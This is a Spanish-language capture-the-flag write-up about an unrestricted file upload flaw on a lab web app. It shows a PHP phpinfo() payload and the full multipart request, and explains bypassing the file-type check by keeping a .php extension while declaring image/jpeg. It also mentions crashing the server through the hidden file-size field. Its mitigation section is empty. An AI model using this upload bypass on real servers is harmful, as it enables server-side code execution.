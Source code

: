 # Unrestricted File Upload
### A03:2021-Injection


## Ataque

- **Localización**: /?page=upload

En la vista tenemos un formulario que nos permite subir imágenes, lo que nos puede proporcionar una superficie de ataque para inyectar código propio y ejecutarlo en el servidor.

Comprobamos primero el formulario en si.

```html
<input type="hidden" name="MAX_FILE_SIZE" value="100000">
```
Lo único interesante que encontramos es un input oculto que sirve para pasar a la petición del formulario el tamaño máximo del archivo. Si no existe validación de este parámetro en el servidor, podemos cargar archivos de gran capacidad, provocando una caída de servidor.

Probamos la validación de tipo de fichero.
Tratamos de subir un script en **php** que consta de una función llamado `malicious_file.php`.
```php
 <?php phpinfo(); ?>
```

Al intentar subir el archivo, vemos que de algún modo valida el fichero y no nos lo permite, pero si cambiamos el nombre del archivo a `malicious_file.jpg`, vemos que nos reporta que se ha subido correctamente y nos proporciona una url para acceder a él.

Hemos podido subir nuestro script, pero al ser un fichero **jpg**, el intérprete de php no nos lo va a ejecutar en el servidor.

Vamos a ver en detalle la petición que se realiza para subir el archivo.

```bash
POST /?page=upload HTTP/1.1
Host: 192.168.222.47
Content-Length: 421
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.222.47
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.222.47/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="uploaded"; filename="malicious_file.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF--
```

De todos estos parámetros, vemos que el único posible para validar el archivo es que indica el tipo de contenido del archivo, por lo que editamos la petición para que el archivo subido tenga la extensión **php**, pero el tipo de contenido sea **image/jpeg**. 

Posteamos y obtenemos la flag.

## Mitigación

## Referencias